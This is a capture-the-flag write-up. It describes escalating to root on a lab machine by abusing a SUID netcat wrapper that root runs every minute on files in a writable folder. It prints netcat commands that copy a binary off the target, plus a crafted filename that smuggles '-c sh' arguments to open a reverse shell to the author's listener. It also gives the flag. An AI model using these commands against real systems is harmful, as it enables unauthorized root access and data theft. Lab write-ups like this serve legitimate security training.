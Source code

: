We are shown an ip, port and credentials so we can SSH.

![image](https://user-images.githubusercontent.com/80063008/137870810-f9844233-9de0-4a4d-aa8c-94731b8a1608.png)


Inside, doing some manual enumeration, we can find in /opt/netcatter, a SUID binary called netcatter.

![image](https://user-images.githubusercontent.com/80063008/137870818-80b154aa-2467-4d7c-be8d-ee5dcb239088.png)


Transferred the binary to my machine using netcat.

On target machine:
```bash
nc 10.10.0.23 9001 < netcatter
```
On my machine:
```bash
nc -lvnp 9001 > netcatter
```
Ghidra shows the binary running /bin/nc.traditional

![image](https://user-images.githubusercontent.com/80063008/137870830-107433e0-e6b0-4655-aee6-ac4097950143.png)


Checking running processes, we can see netcatter being used to run something from the files folder in which we can write stuff. And it is running it every 60 seconds as root.

![image](https://user-images.githubusercontent.com/80063008/137870896-79202880-2e70-443b-b89b-0600e9b1b6e4.png)


I'm not great at decompiling code but I think that while we have less then 5 arguments, it will replace the : with a space.

![image](https://user-images.githubusercontent.com/80063008/137870913-903c27c0-7005-4cd0-9855-cd3af5ce2cd0.png)


We need to create files in the files folder that would be taken as arguments by netcatter.

We create the file as seen below in order to make it run a reverse shell:

```bash
touch "10.10.0.23:9001:-c:sh"
```
On our machine we put put a listener on that port:
```bash
nc -lvnp 9001
```
And within a minute we'll catch the shell as seen in the picture below.

![image](https://user-images.githubusercontent.com/80063008/137870960-34f824ea-1ecf-4ba2-ba53-33168d60162f.png)


GPSCTF{c7f14d9a12b871c56869fb0e5932fe1a}
